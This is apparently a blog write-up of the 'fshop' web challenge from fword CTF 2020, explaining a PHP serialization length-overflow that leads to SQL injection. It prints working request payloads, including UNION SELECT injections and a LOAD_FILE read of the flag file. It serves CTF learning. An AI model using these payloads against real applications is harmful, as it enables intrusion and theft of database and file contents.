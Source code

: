 ```yaml
---
title:  "fword CTF 2020 fshop web challenge writeup"
tags: CTF
#article_header:
#  type: cover
#  image:
#    src: /screenshot.jpg
---
```


# fshop writeup

16 solves

I believe that this challenge would've had way more less solves without the unintended solution.

Before I start, sorry for not having the pictures of the actual application. The server of the challenge is currently not active.

# Flow of the application

The challenge was written in php and the following 2 files were the ones needed to understand to solve the challenge
```
buy.php
items.php
```

buy.php
```
$stmt=$conn->prepare("SELECT * FROM products where id=?");
$stmt->bind_param("s",$id);
$id=$product_id;
$stmt->execute();
if ($stmt->get_result()->num_rows==0){
	die("Product does not exist");
}
$productOBJ=new Order($product_id,$quantity,$size);

$serialized_product=serialize($productOBJ);

$filtered_serialized_product=str_replace(chr(0).'*'.chr(0), '\0\0\0', $serialized_product);

$sql="INSERT INTO user_items (user_id,product_object) VALUES (?, ?)";
$stmt = $conn->prepare($sql);
$stmt->bind_param("is",$id, $object);
$id=(int)$user_id;
$object=$filtered_serialized_product;
$stmt->execute();
```

buy.php gets the $pdocut_id, $quantity, and $size (This is user-controllable) and serializes it.

When php serializes private properties, it prepends * surrounded with null bytes in the name. 

mysql cannot process null bytes so the code replaces the * surrounded with the null bytes with \0\0\0. Then it just simply executes the sql query and puts the serialized string into a table named user_items.

itmes.php
```
    $sql="SELECT * from user_items where user_id=?";
    $stmt=$conn->prepare($sql);
    $stmt->bind_param("i",$id);
    $id=(int)$_SESSION['id'];
    $stmt->execute();
    echo '<div class="row" id="product-list">';
    if ($result = $stmt->get_result()) {
        while ($row = $result -> fetch_row()) {
            $serializedObject=$row[2];
            $serializedObject=str_replace('\0\0\0',chr(0).'*'.chr(0), $serializedObject);
            $order=unserialize($serializedObject);
            $prod_id=$order->_product_id;
            $sql2="select * from products where id='$prod_id'";
            if ($result2 = $conn->query($sql2)) {
            
                while ($row2 = $result2 -> fetch_row()) {
                    
                echo "  <div class=\"col-lg-3 col-sm-6 mix all dresses bags\">
                            <div class=\"single-product-item\">
                                <figure>
                                    <a href=\"product-page.php?id=".$row2[0]."\"><img src=".$row2[6].' alt=""></a>
                                    <div class="p-status">For CTF ladies</div>
                                </figure>
                                <div class="product-text">
                                    <h6>'.$row2[1].'</h6>
                                    <p>'.$row2[2].'</p>
                                </div>
                            </div>
                        </div>';

                }
                $result2 -> free_result();
            }
        }
        $result -> free_result();
    }
```

Items.php showed all of the items that you have chose in buy.php.

It first get's all of the rows from user_items with your user_id.
It then gets the serialized object that was made from buy.php and replaces \0\0\0 with * surrounded with null bytes and unserialises that then print them out.

# vulnerability

The problem with this program is that the user also has the ability to inject \0.

Below is an example of a serialized object.
```
{s:12:"*_quantity";s:1:"1";s:8:"*_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

As I said, since mysql can't process null bytes, the application will change it to

```
{s:12:"\0\0\0_quantity";s:1:"1";s:8:"\0\0\0_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

and then change it back to the original serialized object by replacing \0\0\0 with chr(0)."*".chr(0) in items.php.

But what if you give \0 values like the example below?

```
?id=3&size=s&quantity=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0

results in 

serialized_product : O:5:"Order":3:{s:12:"*_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}

and then replacing * with \0\0\0 it will change to 

filtered_serialized_product : O:5:"Order":3:{s:12:"\0\0\0_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"\0\0\0_size";s:1:"s";s:11:"_product_id";s:1:"3";}
then go into the db
```

and then when it converts \0\0\0 back to \* in items.php it will change to 

```
serializedObject : O:5:"Order":3:{s:12:"*_quantity";s:30:"*****";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}
```

Pay attention to the string length where it says s:30. It gave the value of s:30 because it counts all characters in \0\0\0\0\0\0\0\0\0\0\0\0\0\0\0 but when it converts it back to chr(0)."\*".chr(0) it is still in s:30 but the actual character length is 15(you need to also count the null bytes so 10 null bytes + 5 "\*" is 15). This means that we have 15 more characters that we can control. So when the above serealized object gets unserialized, it will occur an error.

# Exploit

So the attack flow is
1. overflow _quantity and overwrite _size
2. create and put the serialized object that contains _size and _product_id(containing the sql injection) into _size

Let's say we want to inject 'UNION SELECT null,null,null,null,null,null,null-- -

the payload will be the following
```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"UNION SELECT null,null,null,null,null,null,null-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```

when this payload gets serialized and when the \0s get replaced with * it will look like below
```
O:5:"Order":3:{s:12:"*_quantity";s:48:"********";s:8:"*_size";s:109:"";s:8:"*_size";s:5:"12345";s:11:"_product_id";s:79:"'UNION SELECT null,null,null,null,null,null,null-- -";s:11:"_product_id";s:1:"3";}
```
so at _quantity, the character length is stated 48 so it will cover 
```
********";s:8:"*_size";s:109:"
```
as string. So when it gets unserialized, it unserializes the part that was in the payload which is size=12345 and _product_id='UNION SELECT null,null,null,null,null,null,null-- -

Perfect! so now we can control the _product_id and achieve sql injection in /items.php

Unfortunately, I do not remember the exact query that I have used so below is the author's sql injection query.

```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0


/var/lib/Fword/mysql-files/You_got_it/


id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:120:"50' union select 1,2,LOAD_FILE("/var/lib/Fword/mysql-files/You_got_it/flag.txt"),4,5,6,7;-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0

FwordCTF{Uns3ri4lize_ov3rfl0w_fi7s_be7t3r_w1th_s0m3_5QL_1nj3c7ion}
```
The above payload uses the same idea that I explained.

Thanks for reading



# Unintended Solution

There was a bug in /items.php where if you went to /items.php before logging in, it will give you other user's output which also printed out the flag. I right away reported it to admin and it got fixed after some time.

# Conclsion
This was a fun challenge about serializing. Sorry for the bad writeup, I'm currently on some assignments for school so I had to write it quick and short.

Once again, thanks for reading.